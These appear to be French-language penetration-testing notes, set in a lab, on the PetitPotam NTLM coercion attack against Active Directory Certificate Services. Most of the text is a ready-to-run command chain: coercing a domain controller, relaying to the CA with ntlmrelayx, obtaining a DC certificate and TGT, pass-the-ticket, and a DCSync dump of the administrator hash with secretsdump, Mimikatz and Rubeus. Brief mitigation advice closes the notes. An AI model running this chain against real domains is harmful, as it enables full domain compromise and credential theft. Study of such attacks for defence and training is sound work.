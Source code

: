 
[CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)

https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/

> [!TIP]
> Attaque par contrainte (coercion)
> Permet à un attaquant non authentifié de forcer le DC à s'authentifier auprès d'un autre hôte en utilisant NTLM sur le port 445 via LSARPC et [MS-EFSRPC](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31).
> 

> [!REQUIS]
> ADCS Doit être utilisé

# LINUX

## PetitPotam

https://github.com/topotam/PetitPotam


1. Identifier si target vulnérable

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

2. Identifier la location du CA

```bash
nxc smb <ip> -u '' -p '' -M enum_ca
```

3. Lancer Ntlmrelay vers l'URL du CA

```shell
sudo impacket-ntlmrelayx -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

4. Lancer PetiPotam

```shell
python3 PetitPotam.py <attack_host_ip> <dc_ip> 
```

Si l'attaque a fonctionné, le certificat en base64 doit avoir été récupéré par ntlmrelay

5. Requête d'un TGT grâce au certificat avec PKINIT

```shell
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

6. Injecter le ticket

```shell
export KRB5CCNAME=dc01.ccache
```

7. DCSync pass the ticket

```shell
impacket-secretsdump -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```


# WINDOWS

## Invoke-PetitPotam

[Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)


## 1. Mimikatz


Lancer PetitPotam

```bash
 misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>
```


## 2. Rubeus

Requete d'un TGT avec le Certificat et Pass The Ticket

```powershell
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<base64 cert> /ptt
```

## 3. [[1. DCSYNC#Mimikatz]]



---


## PetitPotam Mitigations

First off, the patch for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) should be applied to any affected hosts. Below are some further hardening steps that can be taken:

- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use